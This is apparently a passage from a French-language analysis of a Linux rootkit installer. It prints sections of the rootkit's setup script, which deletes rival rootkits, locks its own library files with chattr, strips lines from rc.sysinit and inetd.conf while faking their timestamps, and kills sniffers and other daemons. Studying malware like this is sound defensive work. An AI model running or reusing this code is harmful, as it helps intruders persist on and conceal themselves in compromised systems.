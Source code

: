 ```bash

if [ -f /usr/bin/ssh2d ]; then
  chattr -isa /usr/bin/ssh2d
  rm -rf /usr/bin/ssh2d
  chattr -isa /lib/security/.config/
  chattr -isa /lib/security/.config/*
  rm -rf /lib/security/.config
  echo "${RED}[${WHI}sh${RED}]# optickit detected and removed ...!!!! ${RES}" 
fi

if [ -f /etc/ld.so.hash ]; then
  chattr -isa /etc/ld.so.hash
  rm -rf /etc/ld.so.hash
fi
```

Amusant... Le `setup` retire les rootkits qui pourrait être présents sur votre système et vous prévient si des démons à la sécurité hasardeuse sont présents (compris bitch ?)  

La suite est dans le même ordre d'idée :

```bash
chattr +isa /usr/lib/libsh
chattr +isa /lib/libsh.so

# GREPPING SHITZ FROM rc.sysinit and inetd.conf
if [ -f /etc/rc.d/rc.sysinit ]; then
  chattr -isa /etc/rc.d/rc.sysinit
  cat /etc/rc.d/rc.sysinit | grep -v "# Xntps (NTPv3 daemon) startup.."| grep -v "/usr/sbin/xntps"| grep -v "/usr/sbin/nscd" > /tmp/.grep
  chmod +x /tmp/.grep
  touch -acmr /etc/rc.d/rc.sysinit /tmp/.grep
  mv -f /tmp/.grep /etc/rc.d/rc.sysinit
  rm -rf /tmp/.grep
fi

if [ -f /etc/inetd.conf ]; then
  chattr -isa /etc/inetd.conf
  cat /etc/inetd.conf | grep -v "6635"| grep -v "9705" > /tmp/.grep
  touch -acmr /etc/inted.conf /tmp/.grep
  mv -f /tmp/.grep /etc/inetd.conf
  rm -rf /tmp/.grep
fi

# KILLING SOME LAMME DAEMONS
killall -9 -q nscd >/dev/null 2>&1
killall -9 -q xntps >/dev/null 2>&1
killall -9 -q mountd >/dev/null 2>&1
killall -9 -q mserv >/dev/null 2>&1
killall -9 -q psybnc >/dev/null 2>&1
killall -9 -q t0rns >/dev/null 2>&1
killall -9 -q linsniffer >/dev/null 2>&1
killall -9 -q sniffer >/dev/null 2>&1
killall -9 -q lpsched >/dev/null 2>&1
killall -9 -q sniff >/dev/null 2>&1
killall -9 -q sn1f >/dev/null 2>&1
killall -9 -q sshd2 >/dev/null 2>&1
killall -9 -q xsf >/dev/null 2>&1
killall -9 -q xchk >/dev/null 2>&1
killall -9 -q ssh2d >/dev/null 2>&1

echo "${WHI}--------------------------------------------------------------------${RES}"

echo "${DCYN}[${WHI}sh${DCYN}]# [System Information...]${RES}"
```